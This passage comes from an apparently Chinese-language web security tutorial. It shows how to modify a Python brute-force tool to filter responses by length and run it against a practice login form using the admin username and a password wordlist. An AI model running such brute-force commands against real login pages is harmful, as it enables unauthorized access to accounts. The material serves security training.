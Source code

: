 因此，按代码进行过滤对我们没有帮助。我们可以过滤掉等于`2373`的`chars`，这是我们知道的失败尝试。

让我们修改代码，以过滤`chars`而不是使用命令行参数`-c`过滤代码。我们将代码更改为按`chars`进行过滤。这样做，我们可以在不修改太多代码的情况下按`chars`进行过滤。返回编辑器，修改行`self.hidecode !=code`为`self.hidecode != chars:`：

```py
            if self.hidecode != chars:
                if '200' <= code < '300':
                    print totaltime + "\t" + colored(code,'green') + " \t\t" + chars + " \t\t" + words + " \t\t " + lines +"\t" + r.headers["server"] + "\t" + self.word
                elif '400' <= code < '500':
                    print totaltime + "\t" + colored(code,'red') + " \t\t" + chars + " \t\t" + words + " \t\t " + lines + "\t" + r.headers["server"] + "\t" + self.word
                elif '300' <= code < '400':
                    print totaltime + "\t" + colored(code,'blue') + " \t\t" + chars + " \t\t" + words + " \t\t " + lines + "\t"+ r.headers["server"] + "\t" + self.word
            else:
                pass
            i[0] = i[0] - 1 # Here we remove one thread from the counter
        except Exception, e:
            print e
```

让我们保存这个。现在，我们更改命令行以添加`-c 2373`来过滤所有结果，并再次运行它：

```py
python forzaBruta-forms.py -w http://www.scruffybank.com/check_login.php -t 5 -f pass.txt -p "username=admin&password=FUZZ" -c 2373
```

好的。我们有我们的用户名和密码：

![](img/00063.jpeg)

恭喜，现在您知道如何测试密码安全性，针对三种最常见的 Web 应用程序身份验证方法！在本节中，我们还利用了以前的工作。

# 总结

在本章中，我们学习了 Web 应用程序中常用的不同身份验证方法，并创建了一个用于测试基本和摘要身份验证的工具。最后，我们创建了一个登录表单身份验证 BruteForcer。

在第六章中，*检测和利用 SQL 注入漏洞*，我们将学习如何检测和利用 SQL 注入漏洞。
